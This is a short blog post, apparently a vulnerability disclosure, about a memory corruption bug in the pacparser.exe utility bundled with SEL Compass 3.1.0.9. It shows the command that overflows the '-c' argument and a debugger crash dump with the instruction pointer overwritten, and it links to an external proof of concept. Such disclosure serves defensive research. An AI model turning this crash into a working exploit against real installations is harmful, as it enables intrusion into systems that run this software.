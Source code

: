 ```yaml
---
layout: post
title: SEL Compass
date: 2019-12-22
excerpt: "."
tags: [exploit]
comments: false
---
```

## SEL Compass (3.1.0.9) Memory Corruption
SEL Compass comes bundled with an open source PAC file parsing
utility called ['pacparser'](https://github.com/manugarg/pacparser).
```
C:\Users\mc\Desktop>"C:\Program Files\SEL\SEL Compass\pacparser.exe"
pactester.c: You didn't specify the PAC file

Usage:  C:\Program Files\SEL\SEL Compass\pacparser.exe <-p pacfile> <-u url> [-h
 host] [-c client_ip] [-e]
        C:\Program Files\SEL\SEL Compass\pacparser.exe <-p pacfile> <-f urlslist
> [-c client_ip] [-e]

Options:
  -p pacfile   : PAC file to test (specify '-' to read from standard input)
  -u url       : URL to test for
  -h host      : Host part of the URL
  -c client_ip : client IP address (as returned by myIpAddres() function
                 in PAC files), defaults to IP address on which it is running.
  -e           : enable microsoft extensions (Ex functions)
  -f urlslist  : a file containing list of URLs to be tested.
  -v           : print version and exit

```
various insecure api's are being used for handling arguments passed to
various parameters. an example of this can be seen when passing an overly
long string to the '-c' param.
```
C:\Users\mc\Desktop>"C:\Program Files\SEL\SEL Compass\pacparser.exe" -p c:\Users
\mc\Desktop\sample.txt -u http://www.google.com -c <buffer>
``` 
ends up like.
```
(fcc.138): Access violation - code c0000005 (!!! second chance !!!)
eax=00000001 ebx=00000015 ecx=77472fe7 edx=0022f610 esi=00000000 edi=00000000
eip=6b004141 esp=0022f560 ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
6b004141 ??              ???
0:000> !exploitable
Exploitability Classification: EXPLOITABLE
Recommended Bug Title: Exploitable - Read Access Violation at the Instruction Pointer starting at Unknown Symbol @ 0x000000006b004141 called from Unknown Symbol @ 0x0000000000826ac0 (Hash=0x4d517226.0x564a6926)

Access violations at the instruction pointer are exploitable if not near NULL.
0:000> lmvm pacparser_6b680000
start    end        module name
6b680000 6b7ad000   pacparser_6b680000   (export symbols)       C:\Program Files\SEL\SEL Compass\pacparser.dll
    Loaded symbol image file: C:\Program Files\SEL\SEL Compass\pacparser.dll
    Image path: C:\Program Files\SEL\SEL Compass\pacparser.dll
    Image name: pacparser.dll
    Timestamp:        Sat Sep 10 02:28:07 2011 (4E6B1187)
    CheckSum:         00148618
    ImageSize:        0012D000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
```
[SEL-COMPASS](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-COMPASS)
